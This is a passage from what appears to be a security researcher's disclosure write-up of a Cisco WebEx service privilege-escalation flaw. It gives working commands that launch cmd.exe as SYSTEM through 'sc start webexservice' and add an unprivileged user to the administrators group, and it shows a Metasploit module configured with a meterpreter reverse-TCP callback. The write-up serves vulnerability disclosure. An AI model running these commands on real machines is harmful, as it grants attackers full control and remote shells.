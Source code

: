 It actually runs with a GUI, too, so that's kind of unnecessary. I could literally see it! And it's running as <tt>SYSTEM</tt>!

Speaking of unknowns, running <tt>cmd.exe</tt> and <tt>powershell</tt> the same way does not appear to work. We can, however, run <tt>wmic.exe</tt> and <tt>net.exe</tt>, so we have some choices!

## Local exploit

The simplest exploit is to start <tt>cmd.exe</tt> with <tt>wmic.exe</tt>:

```
<span class="rubyConstant">C</span>:\<span class="rubyConstant">Users</span>\ron>sc start webexservice a software-update <span class="Number">1</span> wmic process call create <span class="rubyStringDelimiter">"</span><span class="String">cmd.exe</span><span class="rubyStringDelimiter">"</span>
```

That opens a GUI <tt>cmd.exe</tt> instance as <tt>SYSTEM</tt>:

```
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

If we can't or choose not to open a GUI, we can also escalate privileges:

```
C:\Users\ron>net localgroup administrators
[...]
Administrator
ron

C:\Users\ron>sc start webexservice a software-update 1 net localgroup administrators testuser /add
[...]

C:\Users\ron>net localgroup administrators
[...]
Administrator
ron
testuser
```

And this all works as an unprivileged user!

Jeff wrote a [local module for Metasploit](https://github.com/CounterHack/webexec-metasploit/blob/cisco-webex-exploit/modules/exploits/windows/local/webexec.rb) to exploit this privilege escalation vulnerability. If you have a non-SYSTEM session on the affected machine, you can use it with a non-SYSTEM metasploit session with the following commands:

```
meterpreter > getuid
Server username: IEWIN7\IEUser

meterpreter > background
[*] Backgrounding session 2...

msf exploit(multi/handler) > use exploit/windows/local/webexec
msf exploit(windows/local/webexec) > set SESSION 2
SESSION => 2

msf exploit(windows/local/webexec) > set payload windows/meterpreter/reverse_tcp
msf exploit(windows/local/webexec) > set LHOST 172.16.222.1
msf exploit(windows/local/webexec) > set LPORT 9001
msf exploit(windows/local/webexec) > run

[*] Started reverse TCP handler on 172.16.222.1:9001
[*] Checking service exists...
```